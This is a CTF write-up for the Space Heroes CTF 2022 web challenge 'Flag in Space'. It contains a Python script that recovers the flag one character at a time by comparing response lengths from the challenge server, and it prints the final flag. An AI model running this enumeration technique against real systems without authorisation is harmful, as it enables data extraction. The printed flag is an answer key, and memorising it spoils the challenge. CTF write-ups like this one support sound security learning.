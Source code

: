 ```yaml
---
name: Flag in Space (2022)
event: Space Heroes CTF 2022
category: Web
description: Writeup for Flag in Space (Web) - Space Heroes CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag in Space

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/8oycV0Bsb5k/0.jpg)](https://youtu.be/8oycV0Bsb5k "Space Heroes CTF 2022: Flag in Space")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *
import requests
import string

context.log_level = 'debug'
url = 'http://172.105.154.14/?flag=shctf{'

response = requests.get(url + '\x00')  # Initial request
correct_response = len(response.text)
info('intitial response length: %d', correct_response)

# Loop until we see the flag
while '}' not in url:
    # Loop possible chars (string.printable)
    for char in '{_}' + string.ascii_lowercase + string.digits:
        response = requests.get(url + char)
        # If this is the correct char, update
        if len(response.text) > correct_response:
            correct_response = len(response.text)
            url = url + char
            info(url)
            break

# Flag plz
warn(url)
```
{% endcode %}

Flag: `shctf{2_explor3_fronti3r}`

